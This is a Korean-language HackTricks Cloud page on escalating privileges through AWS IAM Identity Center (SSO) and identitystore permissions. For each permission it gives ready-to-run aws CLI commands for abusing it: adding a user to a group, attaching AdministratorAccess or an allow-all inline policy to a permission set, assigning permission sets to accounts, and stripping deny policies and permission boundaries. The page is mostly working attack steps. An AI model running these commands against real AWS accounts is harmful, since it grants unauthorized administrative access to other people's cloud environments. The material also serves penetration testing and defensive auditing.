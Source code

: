 # AWS - SSO & identitystore Privesc

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## AWS Identity Center / AWS SSO

AWS Identity Center / AWS SSO에 대한 자세한 내용은 다음을 확인하세요:

{% content-ref url="../aws-services/aws-iam-enum.md" %}
[aws-iam-enum.md](../aws-services/aws-iam-enum.md)
{% endcontent-ref %}

{% hint style="warning" %}
기본적으로 **Management Account**에서 **권한**이 있는 **사용자**만 IAM Identity Center에 접근하고 **제어**할 수 있습니다.\
다른 계정의 사용자는 해당 계정이 **Delegated Administrator**인 경우에만 허용할 수 있습니다.\
[자세한 내용은 문서를 확인하세요.](https://docs.aws.amazon.com/singlesignon/latest/userguide/delegated-admin.html)
{% endhint %}

### ~~비밀번호 재설정~~

이와 같은 경우 권한을 상승시키는 쉬운 방법은 사용자의 비밀번호를 재설정할 수 있는 권한을 갖는 것입니다. 불행히도 사용자의 비밀번호를 재설정하기 위해 이메일을 보내는 것만 가능하므로 사용자의 이메일에 접근해야 합니다.

### `identitystore:CreateGroupMembership`

이 권한을 사용하면 사용자를 그룹에 추가하여 그룹이 가진 모든 권한을 상속받을 수 있습니다.

{% code overflow="wrap" %}
```bash
aws identitystore create-group-membership --identity-store-id <tore-id> --group-id <group-id> --member-id UserId=<user-id>
```
{% endcode %}

### `sso:PutInlinePolicyToPermissionSet`, `sso:ProvisionPermissionSet`

이 권한을 가진 공격자는 자신의 통제 하에 있는 사용자에게 부여된 Permission Set에 추가 권한을 부여할 수 있습니다.

{% code overflow="wrap" %}
```bash
# Set an inline policy with admin privileges
aws sso-admin put-inline-policy-to-permission-set --instance-arn <instance-arn> --permission-set-arn <perm-set-arn> --inline-policy file:///tmp/policy.yaml

# Content of /tmp/policy.yaml
{
"Version": "2012-10-17",
"Statement": [
{
"Sid": "Statement1",
"Effect": "Allow",
"Action": ["*"],
"Resource": ["*"]
}
]
}

# Update the provisioning so the new policy is created in the account
aws sso-admin provision-permission-set --instance-arn <instance-arn> --permission-set-arn <perm-set-arn> --target-type ALL_PROVISIONED_ACCOUNTS
```
{% endcode %}

### `sso:AttachManagedPolicyToPermissionSet`, `sso:ProvisionPermissionSet`

이 권한을 가진 공격자는 자신의 통제 하에 있는 사용자에게 부여된 Permission Set에 추가 권한을 부여할 수 있습니다.

{% code overflow="wrap" %}
```bash
# Set AdministratorAccess policy to the permission set
aws sso-admin attach-managed-policy-to-permission-set --instance-arn <instance-arn> --permission-set-arn <perm-set-arn> --managed-policy-arn "arn:aws:iam::aws:policy/AdministratorAccess"

# Update the provisioning so the new policy is created in the account
aws sso-admin provision-permission-set --instance-arn <instance-arn> --permission-set-arn <perm-set-arn> --target-type ALL_PROVISIONED_ACCOUNTS
```
{% endcode %}

### `sso:AttachCustomerManagedPolicyReferenceToPermissionSet`, `sso:ProvisionPermissionSet`

이 권한을 가진 공격자는 자신의 통제 하에 있는 사용자에게 부여된 Permission Set에 추가 권한을 부여할 수 있습니다.

{% hint style="warning" %}
이 경우 이러한 권한을 악용하려면 **영향을 받을 모든 계정에 있는 고객 관리 정책의 이름**을 알아야 합니다.
{% endhint %}

{% code overflow="wrap" %}
```bash
# Set AdministratorAccess policy to the permission set
aws sso-admin attach-customer-managed-policy-reference-to-permission-set --instance-arn <instance-arn> --permission-set-arn <perm-set-arn> --customer-managed-policy-reference <customer-managed-policy-name>

# Update the provisioning so the new policy is created in the account
aws sso-admin provision-permission-set --instance-arn <instance-arn> --permission-set-arn <perm-set-arn> --target-type ALL_PROVISIONED_ACCOUNTS
```
{% endcode %}

### `sso:CreateAccountAssignment`

이 권한을 가진 공격자는 자신의 통제 하에 있는 사용자에게 계정에 대한 권한 세트를 부여할 수 있습니다.

{% code overflow="wrap" %}
```bash
aws sso-admin create-account-assignment --instance-arn <instance-arn> --target-id <account_num> --target-type AWS_ACCOUNT --permission-set-arn <permission_set_arn> --principal-type USER --principal-id <principal_id>
```
{% endcode %}

### `sso:GetRoleCredentials`

사용자에게 할당된 특정 역할 이름에 대한 STS 단기 자격 증명을 반환합니다.

{% code overflow="wrap" %}
```
aws sso get-role-credentials --role-name <value> --account-id <value> --access-token <value>
```
{% endcode %}

그러나, 나는 어떻게 접근 토큰을 얻는지 확실하지 않기 때문에 접근 토큰이 필요합니다 (TODO).

### `sso:DetachManagedPolicyFromPermissionSet`

이 권한을 가진 공격자는 지정된 권한 세트에서 AWS 관리 정책 간의 연관성을 제거할 수 있습니다. **관리 정책을 분리함으로써 (거부 정책)** 더 많은 권한을 부여하는 것이 가능합니다.

{% code overflow="wrap" %}
```bash
aws sso-admin detach-managed-policy-from-permission-set --instance-arn <SSOInstanceARN> --permission-set-arn <PermissionSetARN> --managed-policy-arn <ManagedPolicyARN>
```
{% endcode %}

### `sso:DetachCustomerManagedPolicyReferenceFromPermissionSet`

이 권한을 가진 공격자는 지정된 권한 세트에서 고객 관리 정책과의 연관성을 제거할 수 있습니다. **관리 정책(거부 정책)을 분리함으로써** 더 많은 권한을 부여하는 것이 가능합니다.

{% code overflow="wrap" %}
```bash
aws sso-admin detach-customer-managed-policy-reference-from-permission-set --instance-arn <value> --permission-set-arn <value> --customer-managed-policy-reference <value>
```
{% endcode %}

### `sso:DeleteInlinePolicyFromPermissionSet`

이 권한을 가진 공격자는 권한 세트에서 인라인 정책의 권한을 제거할 수 있습니다. 인라인 정책(거부 정책)을 분리하여 **더 많은 권한을 부여하는 것이 가능합니다**.

{% code overflow="wrap" %}
```bash
aws sso-admin delete-inline-policy-from-permission-set --instance-arn <SSOInstanceARN> --permission-set-arn <PermissionSetARN>
```
{% endcode %}

### `sso:DeletePermissionBoundaryFromPermissionSet`

이 권한을 가진 공격자는 권한 세트에서 Permission Boundary를 제거할 수 있습니다. Permission Boundary에서 제공된 권한 세트의 제한을 제거함으로써 **더 많은 권한을 부여할 수 있습니다**.

{% code overflow="wrap" %}
```bash
aws sso-admin   delete-permissions-boundary-from-permission-set --instance-arn <value> --permission-set-arn <value>
```
{% endcode %}

{% hint style="success" %}
AWS 해킹 배우기 및 연습하기:<img src="../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">\
GCP 해킹 배우기 및 연습하기: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks 지원하기</summary>

* [**구독 계획**](https://github.com/sponsors/carlospolop) 확인하기!
* **💬 [**디스코드 그룹**](https://discord.gg/hRep4RUj7f) 또는 [**텔레그램 그룹**](https://t.me/peass)에 참여하거나 **트위터** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**를 팔로우하세요.**
* **[**HackTricks**](https://github.com/carlospolop/hacktricks) 및 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) 깃허브 리포지토리에 PR을 제출하여 해킹 트릭을 공유하세요.**

</details>
{% endhint %}
